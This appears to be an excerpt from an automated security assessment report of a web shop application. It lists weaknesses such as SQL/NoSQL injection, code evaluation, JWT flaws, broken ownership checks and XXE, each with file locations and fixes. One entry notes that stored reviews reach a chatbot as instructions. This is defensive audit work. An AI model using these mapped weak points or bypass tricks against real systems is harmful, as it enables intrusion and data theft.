- 🟡 Medium · [W-046](#w-046) - Secrets are committed to source instead of a managed store · design-risk · 1 finding · 1 component

<a id="w-001"></a>
### W-001 — Application data crosses into executable code

🔴 Critical · implementation weakness · confirmed · 2 findings

An interpreter evaluates application values as code. The affected path mixes data processing with executable program construction instead of constraining callers to predefined operations.

**Confirmed findings:**

- 🔴 [F-012](#f-012) — Code injection

**Practice sites:**

- 🟠 [F-025](#f-025) — Request body orderLinesData evaluated by notevil in vm

**Affected components:** [C-01](#c-01)

**Remediation:**

- **Structural** — replace evaluation of application values with a data parser or a fixed set of operations whose arguments remain data
- **Tactical** — ● [M-034](#m-034) — Remove eval of profile username, ◑ [M-006](#m-006) — Manual review: verify Request body orderLinesData evaluated by notevil in vm sandbox, ◕ [M-045](#m-045) — Remove evaluation of order data

<a id="w-002"></a>
### W-002 — Database access relies on concatenated queries

🔴 Critical · design weakness · confirmed · 2 findings

Database queries are assembled from application values instead of passing those values through an enforced parameterised data-access path. This leaves every call site responsible for preserving query structure.

**Architectural anti-pattern - Raw SQL string interpolation.** Queries are assembled by concatenating request values instead of bound parameters, so each route needs its own repair and the pattern recurs.

**Confirmed findings:**

- 🔴 [F-004](#f-004) — SQL injection in product search
- 🔴 [F-011](#f-011) — SQL injection in login credential query

**Practice sites:**

- `routes/login.ts:34`
- `routes/search.ts:23`

**Architecture evidence:** Parameterized Queries, ORM / Repository Layer, Source evidence (`routes/vulnCodeSnippet.ts:46`)

**Affected components:** [C-01](#c-01), [C-09](#c-09)

**Remediation:**

- **Structural** — provide one parameterised repository or query-builder path and prohibit application-value interpolation in database queries
- **Tactical** — ● [M-031](#m-031) — Use bound parameters in product search query, ● [M-033](#m-033) — Use parameterized queries for login lookup

<a id="w-003"></a>
### W-003 — Authentication relies on hand-rolled token verification

🟠 High · implementation weakness · confirmed · 6 findings

Token validation is implemented in application code rather than behind one vetted and consistently configured authentication path. Algorithm, issuer, audience, and key-handling checks can diverge between callers.

**Confirmed findings:**

- 🟠 [F-016](#f-016) — OAuth implicit flow without state, nonce or audience

**Practice sites:**

- 🟠 [F-019](#f-019) — JWT decode used without signature verification
- 🟠 [F-020](#f-020) — Insecure JWT Verification
- 🟡 [F-071](#f-071) — Chatbot trusts unverified JWT payload for identity
- 🟡 [F-078](#f-078) — JWT verification does not pin an algorithm
- 🟡 [F-088](#f-088) — Missing Container Image Signing
- `lib/insecurity.ts:55`

**Affected components:** [C-01](#c-01), [C-03](#c-03), [C-05](#c-05), [C-09](#c-09)

**Remediation:**

- **Structural** — centralise token validation on a vetted library with pinned algorithms, issuer and audience checks, and managed signing keys
- **Tactical** — ◕ [M-036](#m-036) — Verify token signatures before trusting claims, ◑ [M-003](#m-003) — Manual review: verify JWT decode used without signature verification, ◕ [M-039](#m-039) — Enforce JWT signature and algorithm verification (F-019), ◑ [M-004](#m-004) — Manual review: verify Insecure JWT Verification, ◕ [M-040](#m-040) — Enforce JWT signature and algorithm verification (F-020), ◑ [M-013](#m-013) — Manual review: verify Chatbot trusts unverified JWT payload for identity, ◑ [M-084](#m-084) — Verify JWT signature before trusting identity, ◑ [M-015](#m-015) — Manual review: verify JWT verification does not pin an algorithm, ● [M-091](#m-091) — Pin RS256 in every token verification call, ◑ [M-023](#m-023) — Sign and verify release artifacts

<a id="w-004"></a>
### W-004 — Endpoints are reachable without enforced authentication

🟠 High · design weakness · confirmed · 4 findings

Sensitive API routes and real-time channels are exposed without an enforced authentication check at the endpoint boundary. Access control depends on each handler (or the caller) remembering to require a session, so an unauthenticated client can reach privileged operations directly.

**Confirmed findings:**

- 🟠 [F-026](#f-026) — Unauthenticated modification of products
- 🟡 [F-074](#f-074) — Wallet ownership claimed without signature proof
- 🟡 [F-076](#f-076) — Unauthenticated WebSocket Channel
- 🟡 [F-103](#f-103) — Unauthenticated Prometheus metrics endpoint

**Architecture evidence:** Route Authentication Middleware, Server-Side Session Enforcement, Source evidence (`server.ts:309`), Source evidence (`server.ts:402`), Source evidence (`server.ts:404`), Source evidence (`server.ts:406`) (+4 more)

**Affected components:** [C-01](#c-01), [C-04](#c-04), [C-07](#c-07)

**Remediation:**

- **Structural** — enforce authentication centrally at the routing and channel boundary so every exposed endpoint requires a verified session unless explicitly marked public
- **Tactical** — ◕ [M-046](#m-046) — Guard Product PUT with authorization, ◑ [M-087](#m-087) — Require signed message proving wallet ownership, ◑ [M-089](#m-089) — Require authentication on every exposed endpoint (F-076), ◑ [M-113](#m-113) — Protect the metrics endpoint

<a id="w-005"></a>
### W-005 — Input handling lacks enforced boundary validation

🟠 High · design weakness · confirmed · 4 findings

Request handlers do not validate input against one enforced server-side schema or allowlist at the boundary - validation is either absent on the vulnerable parameters or limited to rejecting selected bad patterns (a blacklist). New encodings and unanticipated input forms can therefore reach downstream parsers or interpreters.

**Confirmed findings:**

- 🟠 [F-024](#f-024) — Zip entry path traversal on complaint upload
- 🟡 [F-096](#f-096) — Null byte bypasses FTP file type allow-list

**Practice sites:**

- 🟠 [F-023](#f-023) — Arbitrary server file read
- 🟡 [F-116](#f-116) — Unvalidated event payload types throw

**Architecture evidence:** Schema Validation, Allowlist Validation, Source evidence (`server.ts:204`), Source evidence (`server.ts:246`), Source evidence (`frontend/src/app/photo-wall/photo-wall.component.ts:93`), Source evidence (`frontend/src/hacking-instructor/helpers/helpers.ts:262`) (+4 more)

**Affected components:** [C-01](#c-01), [C-07](#c-07)

**Remediation:**

- **Structural** — enforce server-side schemas and domain-specific allowlists before input reaches parsing, persistence, or command construction
- **Tactical** — ◕ [M-044](#m-044) — Validate zip entry paths against the target directory, ◑ [M-106](#m-106) — Check file type after normalizing the name, ◑ [M-005](#m-005) — Manual review: verify Arbitrary server file read through data erasure layout path, ◕ [M-043](#m-043) — Constrain file paths to a safe base directory (F-023), ◑ [M-022](#m-022) — Manual review: verify Unvalidated event payload types throw in handlers, ◑ [M-126](#m-126) — Type-check payloads and wrap handlers

<a id="w-006"></a>
### W-006 — Document-database queries take their structure from application values

🟠 High · implementation weakness · confirmed · 2 findings

Document-store queries take operators or JavaScript predicates from application values instead of fixed query structures with typed values. Callers can change what a query selects, for example through injected operators or evaluated expressions.

**Confirmed findings:**

- 🟠 [F-033](#f-033) — NoSQL injection in product reviews \$where
- 🟠 [F-034](#f-034) — NoSQL injection in order tracking \$where predicate

**Practice sites:**

- `routes/likeProductReviews.ts:25`

**Affected components:** [C-01](#c-01)

**Remediation:**

- **Structural** — build document queries from fixed operator structures, coerce request values to the expected scalar types, and disable server-side JavaScript evaluation in the database
- **Tactical** — ◕ [M-051](#m-051) — Replace \$where string with structured query, ◕ [M-052](#m-052) — Query orders by exact orderId match

<a id="w-007"></a>
### W-007 — Authorization is implemented route by route

🟠 High · design weakness · confirmed · 23 findings

Authorization depends on per-handler checks instead of a policy boundary that consistently enforces role, ownership, and tenant scope. New routes can bypass protection by omitting a local check.

**Confirmed findings:**

- 🟠 [F-002](#f-002) — Systemic missing object ownership checks across address, basket, coupon
- 🟠 [F-042](#f-042) — Any authenticated user can read other users' records and all complaints
- 🟠 [F-050](#f-050) — Basket item add checks different BasketId than it
- 🟠 [F-051](#f-051) — Review author taken from request body
- 🟠 [F-052](#f-052) — Review update lacks ownership check
- 🟠 [F-053](#f-053) — Recycle records readable by any caller by ID
- 🟠 [F-057](#f-057) — Deluxe upgrade skips payment verification
- 🟠 [F-058](#f-058) — Encryption keys and logs served without authorization
- 🟠 [F-063](#f-063) — Unauthenticated product update
- 🟠 [F-064](#f-064) — Duplicate JSON key bypasses basket ownership check
- 🟠 [F-065](#f-065) — Chatbot coupon tool lacks server-side authorization
- 🟠 [F-069](#f-069) — User list readable by any authenticated user
- 🟡 [F-072](#f-072) — Client-supplied UserId accepted when posting feedback
- 🟡 [F-119](#f-119) — Basket items readable and deletable across users

**Practice sites:**

- 🔴 [F-010](#f-010) — Insecure Direct Object Reference
- 🟠 [F-030](#f-030) — Basket item update lacks ownership check and field
- 🟠 [F-059](#f-059) — Sensitive Routes Registered Without Authentication Middleware
- 🟠 [F-060](#f-060) — Any authenticated user can list all user accounts
- 🟠 [F-061](#f-061) — Any authenticated user can create products with chosen prices
- 🟡 [F-107](#f-107) — Data export finds orders by non-unique masked e-mail
- 🟡 [F-108](#f-108) — Order history matches orders by masked email
- 🟡 [F-109](#f-109) — Order tracking returns any order by identifier
- 🟡 [F-118](#f-118) — Any logged-in user can delete any feedback
- `lib/startup/registerWebsocketEvents.ts:33`
- `server.ts:501`
- `routes/nftMint.ts:41`

**Architecture evidence:** Centralised AuthZ Policy, Role / Scope Enforcement, Ownership Check, Source evidence (`server.ts:366`), Source evidence (`server.ts:367`), Source evidence (`server.ts:371`) (+28 more)

**Affected components:** [C-01](#c-01), [C-04](#c-04), [C-09](#c-09)

**Remediation:**

- **Structural** — enforce authorization through a shared server-side policy layer and make ownership and tenant scope mandatory inputs to data access
- **Tactical** — ◕ [M-029](#m-029) — Enforce basket ownership on lookup, ◕ [M-059](#m-059) — Enforce object ownership on user reads, ◕ [M-067](#m-067) — Validate the BasketId that is actually stored, ◕ [M-068](#m-068) — Derive review author from authenticated session, ◕ [M-069](#m-069) — Bind review updates to the authenticated author, ◕ [M-070](#m-070) — Require authentication and scope recycle lookups to caller, ◕ [M-071](#m-071) — Require a verified payment before the deluxe upgrade, ◕ [M-072](#m-072) — Restrict key and log routes to administrators, ◕ [M-076](#m-076) — Guard product updates with an admin role check, ◕ [M-077](#m-077) — Use one parsed BasketId for check and save, ◕ [M-078](#m-078) — Enforce coupon cap and eligibility, ◕ [M-082](#m-082) — Restrict user listing to administrators, ◑ [M-085](#m-085) — Derive feedback author from the token, ◑ [M-129](#m-129) — Bind basket item access to the caller's basket, ◑ [M-001](#m-001) — Manual review: verify Insecure Direct Object Reference (Card), ● [M-032](#m-032) — Enforce object-level (ownership) authorization (F-010), ◑ [M-007](#m-007) — Manual review: verify Basket item update lacks ownership check and field allow-list, ◕ [M-050](#m-050) — Enforce object-level (ownership) authorization (F-030), ◑ [M-011](#m-011) — Manual review: verify Sensitive Routes Registered Without Authentication Middleware, ◕ [M-073](#m-073) — Enforce server-side authorization on every endpoint (F-059), ◕ [M-074](#m-074) — Require an admin role for user listing, ◕ [M-075](#m-075) — Restrict product creation to administrators, ◑ [M-117](#m-117) — Enforce object-level (ownership) authorization (F-107), ◑ [M-118](#m-118) — Query order history by the exact authenticated identity, ◑ [M-119](#m-119) — Enforce object-level (ownership) authorization (F-109), ◑ [M-128](#m-128) — Restrict feedback deletion to admins

<a id="w-008"></a>
### W-008 — Privileged attributes lack an enforced write allowlist

🟠 High · implementation weakness · observed-practice · 4 findings

Model binding accepts caller-selected attributes across a privileged write boundary. The affected binding path does not separate fields callers may change from fields reserved for server-side policy.

**Architectural anti-pattern - Mass-assignment / unscoped object binding.** Generated create and update resources bind request bodies directly to models, including the role field, so no single route fix closes the whole class.

**Practice sites:**

- 🟠 [F-066](#f-066) — Registration accepts privileged role from request body
- 🟠 [F-067](#f-067) — Mass assignment of role on user registration
- 🟡 [F-084](#f-084) — Owner UserId taken from request body on create routes
- 🟡 [F-085](#f-085) — Security answer creation accepts owner from request body
- `server.ts:406`

**Affected components:** [C-01](#c-01)

**Remediation:**

- **Structural** — define operation-specific write schemas and assign privileged attributes exclusively through server-side policy
- **Tactical** — ● [M-079](#m-079) — Restrict registration fields with an allow-list, ◑ [M-012](#m-012) — Manual review: verify Mass assignment of role on user registration, ● [M-080](#m-080) — Strip role from registration input, ◑ [M-097](#m-097) — Bind owner field to the authenticated caller, ◑ [M-018](#m-018) — Manual review: verify Security answer creation accepts owner from request body, ◑ [M-098](#m-098) — Bind security answer owner to the authenticated user

<a id="w-009"></a>
### W-009 — Browser scripts retain reusable session credentials

🟠 High · implementation weakness · observed-practice · 1 finding

Browser code retains reusable authentication credentials in script-readable storage. Script execution in the same origin can obtain the credentials and reuse the authenticated session.

**Practice sites:**

- 🟠 [F-003](#f-003) — JWT Stored in Script-Readable Storage

**Affected components:** [C-05](#c-05)

**Remediation:**

- **Structural** — move reusable credentials behind a server-managed session boundary and keep browser-visible state free of reusable authentication secrets
- **Tactical** — ◕ [M-030](#m-030) — Store session tokens in HttpOnly, Secure cookies

<a id="w-010"></a>
### W-010 — Frontend rendering lacks enforced output encoding

🟠 High · design weakness · design-risk · 5 findings

Browser rendering paths write HTML or DOM content directly without one enforced contextual-encoding or sanitisation boundary. Safety depends on each individual component using the right API.

**Architectural anti-pattern - SPA without BFF.** The Angular client keeps the session token in browser storage and no backend-for-frontend holds it server-side, so any script injection can steal sessions.

**Practice sites:**

- 🟠 [F-001](#f-001) — Angular sanitizer bypass causes XSS in about, search, administration
- 🟡 [F-087](#f-087) — Model setters skip HTML sanitization on challenge branch
- 🟡 [F-093](#f-093) — User emails rendered as trusted HTML in admin
- 🟡 [F-094](#f-094) — DOM XSS
- 🟡 [F-095](#f-095) — Stored XSS risk from trusted product
- `frontend/src/app/data-export/data-export.component.ts:71`
- `views/dataErasureForm.hbs:38`
- `frontend/src/app/about/about.component.ts:119`
- `frontend/src/app/administration/administration.component.ts:73`
- `frontend/src/app/administration/administration.component.ts:91`
- `frontend/src/app/data-export/data-export.component.ts:57`
- `frontend/src/app/last-login-ip/last-login-ip.component.ts:39`

**Architecture evidence:** Template Autoescape, Output Encoding, Content Security Policy, Source evidence (`frontend/src/app/about/about.component.ts:119`), Source evidence (`frontend/src/app/last-login-ip/last-login-ip.component.ts:39`), Source evidence (`frontend/src/app/administration/administration.component.ts:73`) (+5 more)

**Affected components:** [C-02](#c-02), [C-05](#c-05)

**Remediation:**

- **Structural** — use framework-safe rendering by default and isolate any required raw HTML behind one reviewed sanitisation and Trusted Types policy
- **Tactical** — ◕ [M-028](#m-028) — Encode output instead of bypassing the framework sanitizer (F-001), ◑ [M-019](#m-019) — Manual review: verify Model setters skip HTML sanitization on challenge branch, ◑ [M-100](#m-100) — Always sanitize input in model setters, ◑ [M-103](#m-103) — Render user emails as text in admin view, ◑ [M-020](#m-020) — Manual review: verify DOM XSS via trusted HTML of JWT last login IP, ◑ [M-104](#m-104) — Render last login IP as escaped text, ◑ [M-021](#m-021) — Manual review: verify Stored XSS risk from trusted product descriptions, ◑ [M-105](#m-105) — Stop trusting server-supplied product descriptions

<a id="w-011"></a>
### W-011 — No brute-force protection on login handler (login.ts:32)

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟡 [F-077](#f-077) — No brute-force protection on login handler

**Affected components:** [C-09](#c-09)

**Remediation:**

- **Tactical** — ◑ [M-014](#m-014) — Manual review: verify No brute-force protection on login handler, ◑ [M-090](#m-090) — Add rate limiting and lockout to auth routes

<a id="w-012"></a>
### W-012 — Password reset relies on guessable security answer with bypassable rate limit

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟠 [F-022](#f-022) — Password reset relies on guessable security

**Affected components:** [C-09](#c-09)

**Remediation:**

- **Tactical** — ◕ [M-042](#m-042) — Strengthen recovery with emailed one-time token

<a id="w-013"></a>
### W-013 — Event loop blocked by busy-wait sleep in review queries

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟡 [F-115](#f-115) — Event loop blocked by busy-wait sleep

**Affected components:** [C-01](#c-01)

**Remediation:**

- **Tactical** — ◑ [M-125](#m-125) — Rate-limit expensive requests and bound input size

<a id="w-014"></a>
### W-014 — Chat endpoint has no request or consumption limits (chat.ts:191)

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟠 [F-049](#f-049) — Chat endpoint has no request or consumption limits

**Affected components:** [C-01](#c-01)

**Remediation:**

- **Tactical** — ◕ [M-066](#m-066) — Rate-limit and lock out repeated authentication attempts (F-049)

<a id="w-015"></a>
### W-015 — Unbounded wallet address set on unauthenticated route (web3Wallet.ts:16)

🟡 Medium · implementation weakness · observed-practice

**Practice sites:**

- `routes/web3Wallet.ts:16`

**Affected components:** [C-01](#c-01)

<a id="w-016"></a>
### W-016 — Unbounded attacker-controlled wallet set growth (web3Wallet.ts:16)

🟡 Medium · implementation weakness · observed-practice

**Practice sites:**

- `routes/web3Wallet.ts:16`

**Affected components:** [C-04](#c-04)

<a id="w-017"></a>
### W-017 — Application data builds operating-system commands

🟡 Medium · implementation weakness · observed-practice

A command line is assembled from application values and handed to a shell. Shell syntax in those values runs as further commands with the privileges of the service.

**Practice sites:**

- `.github/workflows/update-news-www.yml:19`

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Structural** — call a fixed executable with an argument list and no shell, and accept only allowlisted argument values from callers

<a id="w-018"></a>
### W-018 — Application data crosses into template source

🟡 Medium · implementation weakness · observed-practice · 1 finding

Template construction treats application values as template source. Rendering can therefore interpret data as template instructions.

**Practice sites:**

- 🟠 [F-037](#f-037) — User-controlled username compiled as Pug template

**Affected components:** [C-01](#c-01)

**Remediation:**

- **Structural** — compile fixed templates and pass application values only through their data-binding interface
- **Tactical** — ◕ [M-055](#m-055) — Remove server-side evaluation of untrusted input (F-037)

<a id="w-019"></a>
### W-019 — Stored reviews and username reach chatbot context as instructions (chat.ts:149)

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟡 [F-086](#f-086) — Stored reviews and username reach chatbot context as instructions

**Affected components:** [C-01](#c-01)

**Remediation:**

- **Tactical** — ◑ [M-099](#m-099) — Isolate untrusted review text from instructions

<a id="w-020"></a>
### W-020 — XML parser resolves external entities and DTDs (xml.ts:35)

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟠 [F-029](#f-029) — XML parser resolves external entities and DTDs

**Affected components:** [C-01](#c-01)

**Remediation:**

- **Tactical** — ◕ [M-049](#m-049) — Disable external entity and DTD loading

<a id="w-021"></a>
### W-021 — XML external entity expansion in upload parser (xml.ts:35)

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟠 [F-040](#f-040) — XML external entity expansion in upload parser

**Affected components:** [C-01](#c-01)

**Remediation:**

- **Tactical** — ◑ [M-008](#m-008) — Manual review: verify XML external entity expansion in upload parser, ◕ [M-058](#m-058) — Disable entity substitution and DTD loading

<a id="w-022"></a>
### W-022 — Workflows without explicit least-privilege permissions (ci.yml:1)

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟡 [F-121](#f-121) — Workflows without explicit least-privilege permissions

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Tactical** — ◑ [M-130](#m-130) — Add top-level read-only permissions blocks

<a id="w-023"></a>
### W-023 — Missing Workflow Permissions Block

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟡 [F-122](#f-122) — Missing Workflow Permissions Block

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Tactical** — ◑ [M-027](#m-027) — GitHub Actions workflow-level permissions block

<a id="w-024"></a>
### W-024 — CORS allows all origins on every route (server.ts:183)

🟡 Medium · implementation weakness · observed-practice

**Practice sites:**

- `server.ts:183`

**Affected components:** [C-01](#c-01)

<a id="w-025"></a>
### W-025 — OAuth sign-in requests are not bound to the user's browser session

🟡 Medium · implementation weakness · observed-practice · 1 finding

The client starts OAuth or OpenID Connect sign-in without a per-request state value that its callback verifies. A forged authorization response can then complete sign-in in the victim's browser with the attacker's grant.

**Practice sites:**

- 🟡 [F-075](#f-075) — OAuth implicit flow without state parameter

**Affected components:** [C-05](#c-05)

**Remediation:**

- **Structural** — start every sign-in through a maintained OAuth/OIDC client that generates and verifies state (and PKCE) for each authorization request
- **Tactical** — ◑ [M-088](#m-088) — Use authorization code flow with PKCE and state

<a id="w-026"></a>
### W-026 — Cookie-authenticated changes lack request authenticity checks

🟡 Medium · implementation weakness · observed-practice · 1 finding

A state-changing operation accepts ambient browser credentials without an enforced check that the authenticated user initiated the request. The affected mutation path lacks a request-authenticity boundary.

**Practice sites:**

- 🟡 [F-080](#f-080) — Cookie-authenticated profile update lacks

**Affected components:** [C-01](#c-01)

**Remediation:**

- **Structural** — enforce framework CSRF protection or validated origin and anti-CSRF tokens on every mutation that accepts ambient browser credentials
- **Tactical** — ◑ [M-017](#m-017) — Manual review: verify Cookie-authenticated profile update lacks CSRF protection, ◑ [M-093](#m-093) — Add CSRF token and SameSite cookie flags

<a id="w-027"></a>
### W-027 — Container base images referenced by tag not digest (Dockerfile:1)

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟡 [F-092](#f-092) — Container base images referenced by tag not digest

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Tactical** — ◑ [M-025](#m-025) — Pin the container base image to an immutable digest

<a id="w-028"></a>
### W-028 — Untrusted npm Install/Postinstall Scripts Enabled

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟡 [F-089](#f-089) — Untrusted npm Install/Postinstall Scripts Enabled

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Tactical** — ◑ [M-024](#m-024) — Disable untrusted package install scripts

<a id="w-029"></a>
### W-029 — Password reset response returns full user record (resetPassword.ts:46)

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟠 [F-046](#f-046) — Password reset response returns full user record

**Affected components:** [C-09](#c-09)

**Remediation:**

- **Tactical** — ◑ [M-010](#m-010) — Manual review: verify Password reset response returns full user record, ◕ [M-063](#m-063) — Return minimal fields from password reset

<a id="w-030"></a>
### W-030 — Unauthenticated memories list returns user records (memory.ts:24)

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟡 [F-099](#f-099) — Unauthenticated memories list returns user records

**Affected components:** [C-01](#c-01)

**Remediation:**

- **Tactical** — ◑ [M-109](#m-109) — Restrict memory listing fields and require auth

<a id="w-031"></a>
### W-031 — Unauthenticated application configuration endpoint (server.ts:607)

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟡 [F-100](#f-100) — Unauthenticated application configuration endpoint

**Affected components:** [C-01](#c-01)

**Remediation:**

- **Tactical** — ◑ [M-110](#m-110) — Require auth and allowlist config fields

<a id="w-032"></a>
### W-032 — User listing exposes sensitive fields to any authenticated user

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟡 [F-114](#f-114) — User listing exposes sensitive fields to any

**Affected components:** [C-09](#c-09)

**Remediation:**

- **Tactical** — ◑ [M-124](#m-124) — Restrict user listing to admins and trim fields

<a id="w-033"></a>
### W-033 — Confidential discount rule embedded in chatbot system prompt (routes/chat.ts:105

🟡 Medium · implementation weakness · observed-practice

Confidential discount rule embedded in chatbot system prompt (`routes/chat.ts:105`)

**Practice sites:**

- `routes/chat.ts:105`

**Affected components:** [C-01](#c-01)

<a id="w-034"></a>
### W-034 — LLM provider error details echoed to chat clients (chat.ts:255)

🟡 Medium · implementation weakness · observed-practice

**Practice sites:**

- `routes/chat.ts:255`

**Affected components:** [C-01](#c-01)

<a id="w-035"></a>
### W-035 — Card numbers and TOTP secrets stored unencrypted (card.ts:38)

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟡 [F-111](#f-111) — Card numbers and TOTP secrets stored unencrypted

**Affected components:** [C-02](#c-02)

**Remediation:**

- **Tactical** — ◑ [M-121](#m-121) — Encrypt sensitive columns

<a id="w-036"></a>
### W-036 — Webhook URL logged in cleartext (webhook.ts:40)

🟡 Medium · implementation weakness · observed-practice

**Practice sites:**

- `lib/webhook.ts:40`

**Affected components:** [C-01](#c-01)

<a id="w-037"></a>
### W-037 — OAuth access token passed in URL fragment and query string (user.service.ts:68)

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟡 [F-112](#f-112) — OAuth access token passed in URL fragment and query string

**Affected components:** [C-05](#c-05)

**Remediation:**

- **Tactical** — ◑ [M-122](#m-122) — Send tokens in headers and drop the implicit grant

<a id="w-038"></a>
### W-038 — Passwords sent in GET query string during password change (user.service.ts:54)

🟡 Medium · implementation weakness · observed-practice

**Practice sites:**

- `frontend/src/app/Services/user.service.ts:54`

**Affected components:** [C-05](#c-05)

<a id="w-039"></a>
### W-039 — Fetched profile image stored without size or type check

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟡 [F-081](#f-081) — Fetched profile image stored without size

**Affected components:** [C-01](#c-01)

**Remediation:**

- **Tactical** — ◑ [M-094](#m-094) — Limit size and verify type of fetched images

<a id="w-040"></a>
### W-040 — Memory image upload without size limit or content check (server.ts:698)

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟡 [F-082](#f-082) — Memory image upload without size limit or content check

**Affected components:** [C-01](#c-01)

**Remediation:**

- **Tactical** — ◑ [M-095](#m-095) — Add size limit and content check to memory upload

<a id="w-041"></a>
### W-041 — Log files served to any caller (logfileServer.ts:14)

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟡 [F-105](#f-105) — Log files served to any caller

**Affected components:** [C-01](#c-01)

**Remediation:**

- **Tactical** — ◑ [M-115](#m-115) — Require authorization for log file access

<a id="w-042"></a>
### W-042 — Encryption keys folder listed and served publicly (server.ts:277)

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟡 [F-106](#f-106) — Encryption keys folder listed and served publicly

**Affected components:** [C-01](#c-01)

**Remediation:**

- **Tactical** — ◑ [M-116](#m-116) — Stop serving the encryption keys folder

<a id="w-043"></a>
### W-043 — Redirect allowlist bypass through substring match (insecurity.ts:136)

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟡 [F-079](#f-079) — Redirect allowlist bypass

**Affected components:** [C-09](#c-09)

**Remediation:**

- **Tactical** — ◑ [M-016](#m-016) — Manual review: verify Redirect allowlist bypass through substring match, ◑ [M-092](#m-092) — Match redirect URLs exactly against the allowlist

<a id="w-044"></a>
### W-044 — Security-sensitive data uses weak cryptographic primitives

🟡 Medium · implementation weakness · observed-practice · 4 findings

Password, token, or integrity protection uses a weak hash, predictable random source, or insufficient work factor. The application may use a standard library, but the selected primitive does not provide the required security property.

**Practice sites:**

- 🟠 [F-018](#f-018) — Non-cryptographic RNG for a secret/token
- 🟠 [F-043](#f-043) — Password verification relies on unsalted MD5
- 🟠 [F-045](#f-045) — Passwords hashed with unsalted MD5 in User model setter
- 🟠 [F-047](#f-047) — Unsalted MD5 password hashing and no strength policy

**Affected components:** [C-01](#c-01), [C-02](#c-02), [C-09](#c-09)

**Remediation:**

- **Structural** — standardise on a password KDF, a CSPRNG for secrets, and modern authenticated cryptographic primitives with centrally reviewed parameters
- **Tactical** — ◑ [M-002](#m-002) — Manual review: verify Non-cryptographic RNG for a secret/token, ◕ [M-038](#m-038) — Use cryptographically secure random values, ◑ [M-009](#m-009) — Manual review: verify Password verification relies on unsalted MD5 with no strength policy, ◕ [M-060](#m-060) — Hash passwords with a strong, salted algorithm (F-043), ◕ [M-062](#m-062) — Use a salted adaptive password hash, ◕ [M-064](#m-064) — Use modern cryptographic hash and KDF algorithms

<a id="w-045"></a>
### W-045 — Build pipeline trusts mutable third-party references

🟡 Medium · design weakness · design-risk · 2 findings

CI/CD workflows resolve third-party actions and other build dependencies to mutable tags or branches instead of immutable commit digests, so a retagged or compromised upstream runs inside the pipeline with its token and secret scope.

**Practice sites:**

- 🟡 [F-090](#f-090) — Mutable third-party GitHub Action references
- 🟡 [F-091](#f-091) — Release packaging installs dependencies without lockfile

**Architecture evidence:** Commit-SHA Action Pinning, Dependency Provenance Verification, Source evidence (`.github/workflows/image_actions.yml:33`), Source evidence (`.github/workflows/image_actions.yml:42`), Source evidence (`.github/workflows/ci.yml:188`)

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Structural** — pin every third-party action and build dependency to an immutable commit SHA (or a vetted internal mirror) and enforce SHA-pinning in CI
- **Tactical** — ◑ [M-101](#m-101) — Pin third-party dependencies to immutable versions, ◑ [M-102](#m-102) — Commit lockfiles and install from them

<a id="w-046"></a>
### W-046 — Secrets are committed to source instead of a managed store

🟡 Medium · design weakness · design-risk · 1 finding

Cryptographic keys, credentials, and other high-entropy secrets are embedded as literals in source or config rather than resolved at runtime from a managed secret store, so anyone with repository read access obtains reusable signing material and credentials.

**Architectural anti-pattern - Secrets hardcoded in source.** The token signing key and other secrets are committed to the repository, so anyone with read access can forge credentials until the secrets are rotated and moved out of source.

**Practice sites:**

- 🟠 [F-048](#f-048) — Hardcoded JWT signing key and HMAC secrets

**Architecture evidence:** Managed Secret Store, Runtime Secret Injection, Source evidence (`routes/checkKeys.ts:10`), Source evidence (`lib/insecurity.ts:21`)

**Affected components:** [C-09](#c-09)

**Remediation:**

- **Structural** — move every secret to a managed secret store or injected environment configuration, rotate the exposed values, and add secret-scanning to CI
- **Tactical** — ● [M-065](#m-065) — Move secrets to a managed secret store

---

## 8. Findings Register

Findings are grouped by severity (Critical → High → Medium → Low); within a tier they are ordered by attack vektor (Repo-Read → Internet-Anon → Internet-User → Victim-Required). Every finding card shows **Severity · Component · Location**, **Issue**, **Fix**, and **Classification** (with external CWE / OWASP links). **Evidence**, **Root cause**, violated requirements, the weakness, and the trust boundary gap appear when they apply.

**Risk Distribution:** 🔴 Critical: 4 · 🟠 High: 52 · 🟡 Medium: 54 · 🟢 Low: n/a · **Total findings: 110**
*This register counts every finding card below. The Management Summary's risk distribution (Total: 54) counts folded insecure-practice sites under their weakness and adds each design risk once.*
**STRIDE Coverage:** Spoofing: 18 · Tampering: 34 · Repudiation: 0 · Information Disclosure: 30 · Denial of Service: 3 · Elevation of Privilege: 25

The root causes and the fixes to do first are summarized in **Remediation Priorities** in the Management Summary; evidence-backed weaknesses are documented in the [Weakness Register](#weakness-register).

